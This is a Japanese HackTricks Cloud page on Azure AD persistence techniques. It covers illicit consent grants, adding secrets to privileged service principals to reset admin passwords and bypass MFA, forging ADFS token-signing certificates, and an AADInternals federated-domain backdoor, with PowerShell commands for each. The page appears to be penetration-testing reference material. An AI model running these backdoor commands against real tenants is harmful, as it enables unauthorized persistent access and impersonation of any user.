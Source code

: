 # Az - 永続性

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする。
* **ハッキングテクニックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

### 不正な同意付与

デフォルトでは、任意のユーザーがAzure ADでアプリケーションを登録できます。したがって、管理者権限で高い影響を持つアプリケーション（ユーザーの代わりにメールを送信する、ロール管理など）を登録できます（管理者であれば承認することができます）。これにより、**フィッシング攻撃**を実行でき、成功した場合には非常に**有益**になります。

さらに、そのアプリケーションを自分のユーザーとして受け入れることで、アクセスを維持する方法もあります。

### アプリケーションとサービス プリンシパル

Application Administrator、GA、またはmicrosoft.directory/applications/credentials/update権限を持つカスタムロールで、既存のアプリケーションに資格情報（シークレットまたは証明書）を追加できます。

**高い権限を持つアプリケーションをターゲットにする**か、**高い権限を持つ新しいアプリケーションを追加**することが可能です。

アプリケーションに追加する興味深いロールは**特権認証管理者ロール**であり、これにより**グローバル管理者のパスワードをリセット**できます。

このテクニックはまた、**MFAをバイパス**することも可能です。
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 証明書ベースの認証

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### フェデレーション - トークン署名証明書

**オンプレミスAD** で **DA権限** を持っている場合、非常に長い有効期間を持つ **新しいトークン署名** および **トークン復号証明書** を作成およびインポートすることが可能です。これにより、私たちは **ImuutableID** を知っている任意のユーザーとして **ログイン** することができます。

以下のコマンドを **ADFSサーバー上のDA** として実行して、新しい証明書を作成し（デフォルトパスワードは 'AADInternals'）、それらをADFSに追加し、自動ロールオーバーを無効にしてサービスを再起動します：
```powershell
New-AADIntADFSSelfSignedCertificates
```
次に、Azure ADで証明書情報を更新します:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### フェデレーション - 信頼されたドメイン

テナントでGA権限を持っている場合、**新しいドメインを追加**することが可能です（検証する必要があります）。認証タイプをフェデレーテッドに構成し、ドメインを**特定の証明書**（以下のコマンドのany.sts）と発行者に信頼させることができます。
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい場合は** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) をフォローする
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する
